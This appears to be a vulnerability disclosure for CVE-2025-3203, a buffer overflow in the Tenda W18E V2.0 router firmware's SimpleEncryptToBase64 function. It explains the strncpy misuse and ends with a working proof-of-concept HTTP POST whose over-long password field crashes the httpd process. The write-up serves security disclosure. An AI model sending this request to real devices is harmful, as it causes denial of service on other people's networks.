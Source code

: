 # CVE
[CVE-2025-3203](https://www.cve.org/CVERecord?id=CVE-2025-3203)

# Information

**Vendor of the products:** Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:** https://www.tenda.com.cn/

**Reported by:** He Nan(zikh26@qq.com)，Guan Qing Wen(2144987805@qq.com)

**Affected products:** W18E V2.0

**Affected firmware version:** V16.01.0.11

**Firmware download address:** [W18E V2.0](https://tenda.com.cn/material/show/103863)

# Overview

In the `Tenda-W18E V2.0` device, a buffer overflow vulnerability exists in the `SimpleEncryptToBase64` function defined in the `libcommonprod.so` library. This function is invoked by the `httpd` process with user-controllable parameters, allowing an attacker to craft a specially designed packet that causes the `httpd` process to crash, resulting in a denial-of-service (DoS) condition.

# Vulnerability details

The handler function `formSetAccountList` is registered in the `common_register` function.

<img src="https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250223203736762.png" alt="image-20250223203736762" style="zoom:50%;" />

After parsing the `password` field, the `SimpleEncryptToBase64` function is called on line 35 with it as an argument.

<img src="https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250223203814927.png" alt="image-20250223203814927" style="zoom:50%;" />



The `SimpleEncryptToBase64` function is defined in the `libcommonprod.so` library. On line 16, it uses `strlen` to get the length of the `password` and mistakenly uses this length as the third argument of the `strncpy` function. Since the `password` field is of variable length, while the buffer `v17` (the second argument of `SimpleEncryptToBase64`) has a fixed size, a sufficiently long `password` can cause a buffer overflow during the `strncpy` operation.

<img src="https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250223204219811.png" alt="image-20250223204219811" style="zoom:50%;" />



# Poc

```
POST /goform/setModules HTTP/1.1
Host: 192.168.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/plain, */*
Cookie: bLanguage=cn; sessionid=W18EV2:0.146.4:52e768
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept-Encoding: gzip, deflate
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=2044
Content-Length: 108

{"account":[{"userType": "admin", "password": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;", "remark": "", "loginIP": "", "ID": 1, "action": "edit"}]}
```

![image-20250329153426074](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250329153426074.png)

